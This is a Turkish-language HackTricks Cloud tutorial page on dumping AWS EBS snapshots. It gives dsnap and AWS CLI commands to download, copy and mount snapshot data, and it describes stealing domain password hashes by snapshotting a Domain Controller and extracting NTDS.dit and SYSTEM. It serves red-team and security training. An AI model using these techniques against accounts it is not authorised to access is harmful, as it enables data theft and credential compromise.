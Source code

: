 # AWS - EBS Snapshot Dump

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Bir snapshot'ı yerel olarak kontrol etme
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Not** `dsnap` kamu anlık görüntülerini indirmenize izin vermeyecektir. Bunu aşmak için, anlık görüntüyü kişisel hesabınıza kopyalayabilir ve onu indirebilirsiniz:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Bu teknik hakkında daha fazla bilgi için orijinal araştırmayı [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/) adresinden kontrol edebilirsiniz.

Bunu Pacu ile [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots) modülünü kullanarak yapabilirsiniz.

## AWS'de bir anlık görüntüyü kontrol etme

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Kontrolünüz altındaki bir EC2 VM'ye bağlayın** (yedek kopyanın bulunduğu bölgeyle aynı bölgede olmalıdır):

Adım 1: EC2 –> Volumes bölümüne giderek tercih ettiğiniz boyut ve türde yeni bir hacim oluşturulmalıdır.

Bu işlemi gerçekleştirebilmek için şu komutları izleyin:

* EC2 örneğine eklemek için bir EBS hacmi oluşturun.
* EBS hacminin ve örneğin aynı bölgede olduğundan emin olun.

Adım 2: Oluşturulan hacme sağ tıklayarak "attach volume" seçeneği seçilmelidir.

Adım 3: Örnek metin kutusundan örnek seçilmelidir.

Bu işlemi gerçekleştirebilmek için aşağıdaki komutu kullanın:

* EBS hacmini ekleyin.

Adım 4: EC2 örneğine giriş yapın ve `lsblk` komutunu kullanarak mevcut diskleri listeleyin.

Adım 5: Hacmin herhangi bir verisi olup olmadığını kontrol etmek için `sudo file -s /dev/xvdf` komutunu kullanın.

Yukarıdaki komutun çıktısı "/dev/xvdf: data" gösteriyorsa, hacim boştur.

Adım 6: Hacmi ext4 dosya sistemine formatlamak için `sudo mkfs -t ext4 /dev/xvdf` komutunu kullanın. Alternatif olarak, `sudo mkfs -t xfs /dev/xvdf` komutunu kullanarak xfs formatını da kullanabilirsiniz. Lütfen ya ext4 ya da xfs kullanmanız gerektiğini unutmayın.

Adım 7: Yeni ext4 hacmini bağlamak için istediğiniz bir dizin oluşturun. Örneğin, "newvolume" adını kullanabilirsiniz.

Bu işlemi gerçekleştirebilmek için `sudo mkdir /newvolume` komutunu kullanın.

Adım 8: Hacmi "newvolume" dizinine bağlamak için `sudo mount /dev/xvdf /newvolume/` komutunu kullanın.

Adım 9: "newvolume" dizinine geçin ve hacim bağlamasını doğrulamak için disk alanını kontrol edin.

Bu işlemi gerçekleştirebilmek için şu komutları kullanın:

* `/newvolume` dizinine geçin.
* Disk alanını kontrol etmek için `df -h .` komutunu kullanın. Bu komutun çıktısı "newvolume" dizinindeki boş alanı göstermelidir.

Bunu Pacu ile `ebs__explore_snapshots` modülünü kullanarak yapabilirsiniz.

## AWS'de bir anlık görüntüyü kontrol etme (cli kullanarak)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Gölge Kopyası

**`EC2:CreateSnapshot`** iznine sahip herhangi bir AWS kullanıcısı, **Domain Controller'ın bir anlık görüntüsünü** oluşturarak ve bunu kontrol ettikleri bir örneğe monte ederek tüm alan kullanıcılarının hash'lerini çalabilir ve **NTDS.dit ve SYSTEM** kayıt hives dosyasını Impacket'in secretsdump projesi ile kullanmak üzere dışa aktarabilir.

Bu aracı saldırıyı otomatikleştirmek için kullanabilirsiniz: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) veya bir anlık görüntü oluşturduktan sonra önceki tekniklerden birini kullanabilirsiniz.

## Referanslar

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
